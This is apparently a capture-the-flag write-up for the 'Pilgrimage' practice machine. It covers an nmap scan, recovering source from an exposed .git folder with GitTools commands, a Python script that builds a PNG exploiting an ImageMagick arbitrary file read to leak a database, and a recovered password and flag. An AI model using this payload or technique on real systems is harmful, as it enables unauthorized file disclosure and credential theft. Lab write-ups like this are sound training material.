 #fileupload #privesc #imagepollution #binwalk
This is the website:
![[Pasted image 20230625231753.png]]

looks like some kind of compressor and with file upload functionality
potential of:
* LFI
* RFI

### Nmap:
```
# Nmap 7.94 scan initiated Sun Jun 25 23:19:35 2023 as: nmap -Pn -A -sV -o nmap_res 10.10.11.219
Nmap scan report for pilgrimage.htb (10.10.11.219)
Host is up (0.39s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
|_  256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Pilgrimage - Shrink Your Images
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
|_http-server-header: nginx/1.18.0
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

***
### PORT 80
nmap found the .git folder , let's try to get the config file from there:
this article very brilliantly describes what are the impact of exposed .git folder:
`https://medium.com/smallcase-engineering/web-security-exposed-git-folder-in-production-51ad9484dee0`


let's save it for later...

we login inside and test our functionality and we see that the images are being loaded as this:
![[Pasted image 20230625234515.png]]
![[Pasted image 20230625234559.png]]


While looking at the .git folder :
do you know that we can dump the whole directory and even much more if this .git folder is exposed:
How:

Once identify the exposed .git repository, the next step is to extract .git folder manually or use tools, for example, dumper.sh in [GitTools](https://github.com/internetwache/GitTools) repository to automate the process. The command line is like:

```
bash gitdumper.sh [http://target/.git/ (http://target/.git/) <dest-dir>
```

we can then recover the files :
To start with, you can recover the source code using extractor.sh in [GitTools](https://github.com/internetwache/GitTools).
```
$ extractor.sh <location-git-folder> <dest-dir>
```

and thus we get this:
the whole code dumped for the website:
![[Pasted image 20230628000717.png]]

while looking at the commit-meta.txt:
![[Pasted image 20230628000842.png]]
The catch lies in the *magick* binary :
when we google the binary with the version given we see not 1 ,2 ,3 but 5 vulnerabilities all listed high giving away the info line file-read, file-delete, file-move , RCE , ssrf for more info:

we also have been given the source code giving away the location of the db we can dump:
in the `index.php` there lies the filename:
*/var/db/pilgrimage* we can use the binary's vulnerability to generate an image that contains the information stored in it from this file in the hex format, yes this may sound a bit sci-fi but this is the actual vulnerability:

first we need to create our image that contains the instructions , when the binary processes that instruction , the code is executed and that data fetched by the code is also stored inside the newly created image by the magick:


we create our 'payload' image via python:
```
import png
from PIL import Image, PngImagePlugin
info = PngImagePlugin.PngInfo()
info.add_text("profile", '/var/db/pilgrimage')
im = Image.open("gradient.png")
im.save(args.output, "PNG", pnginfo=info)
```

we then upload the file and get the file in return created by the binary containing our information

run the command:
```
identify -verbose <the image name>.png
```
at last you will find the text like:
***
20480  
53514c69746520666f726d617420330010000101004020200000003c0000000500000000  
000000000000000400000004000000000000000000000001000000000000000000000000  
00000000000000000000000000000000000000000000003c002e4b910d0ff800040eba00  
0f650fcd0eba0f38000000000000000000000000000000000000000
***
copy this till the end and paste it in the cyberchef [[https://gchq.github.io/CyberChef/]]
select the option -> `from hex` and set it to `auto`
scroll a bit you'll get the id-password
![[Pasted image 20230630170912.png]]
`abigchonkyboi123`
***
### PORT 22
We can ssh into the machine
Now priv-esc 101 
![[Pasted image 20230630234815.png]]


![[Pasted image 20230630234843.png]]


![[Pasted image 20230630235544.png]]


![[Pasted image 20230630235528.png]]


7fe0bba94e4766c0f000c15eac4a720b